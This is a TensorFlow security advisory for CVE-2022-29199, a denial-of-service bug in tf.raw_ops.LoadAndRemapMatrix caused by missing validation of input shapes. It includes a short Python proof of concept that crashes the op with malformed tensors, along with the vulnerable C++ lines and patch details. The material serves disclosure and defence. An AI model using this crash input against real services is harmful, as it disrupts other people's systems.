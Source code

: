 ## TFSA-2022-067: Missing validation causes denial of service via `LoadAndRemapMatrix`

### CVE Number
CVE-2022-29199

### Impact
The implementation of [`tf.raw_ops.LoadAndRemapMatrix`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/load_and_remap_matrix_op.cc#L70-L98) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

ckpt_path = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)
old_tensor_name = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)

row_remapping = tf.constant(0, shape=[], dtype=tf.int64)
col_remapping = tf.constant(3, shape=[3], dtype=tf.int64)
initializing_values = tf.constant([], shape=[0, 1], dtype=tf.float32)

tf.raw_ops.LoadAndRemapMatrix(
  ckpt_path=ckpt_path,
  old_tensor_name=old_tensor_name,
  row_remapping=row_remapping,
  col_remapping=col_remapping,
  initializing_values=initializing_values,
  num_rows=1,
  num_cols=1)
```

The code assumes `initializing_values` is a vector but there is no validation for this before accessing its value:

```cc
OP_REQUIRES_OK(context, context->input("row_remapping", &row_remapping_t));
const auto row_remapping = row_remapping_t->vec<int64_t>();
```

### Patches
We have patched the issue in GitHub commit [3150642acbbe254e3c3c5d2232143fa591855ac9](https://github.com/tensorflow/tensorflow/commit/3150642acbbe254e3c3c5d2232143fa591855ac9).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
